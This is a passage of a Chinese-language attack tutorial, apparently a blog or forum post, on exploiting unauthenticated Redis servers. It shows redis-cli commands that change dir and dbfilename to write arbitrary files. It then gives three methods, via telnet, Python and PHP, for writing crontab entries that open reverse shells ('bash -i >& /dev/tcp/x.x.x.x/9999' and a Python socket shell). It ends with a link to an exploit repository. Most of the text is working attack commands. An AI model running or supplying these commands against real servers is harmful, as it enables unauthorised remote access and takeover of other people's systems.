 ```
redis-cli --eval a.lua -h 192.168.1.154
```
3、由于redis不支持在lua中调用save因此需要手动执行save操作,并且删除key data，恢复dir等。

```
redis-cli save -h *.*.*.*
redis-cli config set dir *** -h *.*.*.*
redis-cli config set dbfilename *** -h *.*.*.*
redis-cli config set rdbcompression * -h *.*.*.*
```
目前写入的文件前后是存在垃圾数据的，下一步通过写计划任务调用python或者系统命令提取出二进制文件（写文件之在数据前后加入了|||作为提取最终文件的标识）。
```
*/1 * * * * python -c 'open("/tmp/rst","a+").write(open("/tmp/t").read().split("|||")[1])'
```
# 补充:
以下来自论坛abuuu大佬:

## 利用redis写定时任务的其他方法:
### 1、 利用telnet连接redis写
```
telnet x.x.x.x 6379 //未授权登录
config set dir /var/spool/cron/ //配置文件夹的路径（CONFIG SET 命令可以动态地调整 Redis 服务器的配置而(configuration)而无须重启。）//每个用户生成的crontab文件，都会放在 /var/spool/cron/ 目录下面
set -.- "\n\n\n* * * * * bash -i >& /dev/tcp/x.x.x.x/9999 0>&1\n\n\n" //直接往当前用户的crontab里写入反弹shell，换行是必不可少的。
```
### 2、利用定时任务通过python反弹shell
```
set 1 "\n\n*/1 * * * * /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"127.0.0.1\",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n"
config set dir /var/spool/cron/
config set dbfilename root
save
```
### 3、通过php来利用redis未授权进行反弹shell
```
<?php
$redis = new Redis();
$redis->connect('127.0.0.1',6379);
$redis->auth("password");
$redis->flushall();
$redis->config("SET","dir","/var/spool/cron/");
$redis->config("SET","dbfilename","root");
$redis->set("0","\n\n*/1 * * * * bash -i >& /dev/tcp/x.x.x.x/9999 0>&1\n\n\n");
$redis->save();
?>
```
# redis利用脚本
[https://github.com/00theway/redis_exp](https://github.com/00theway/redis_exp)
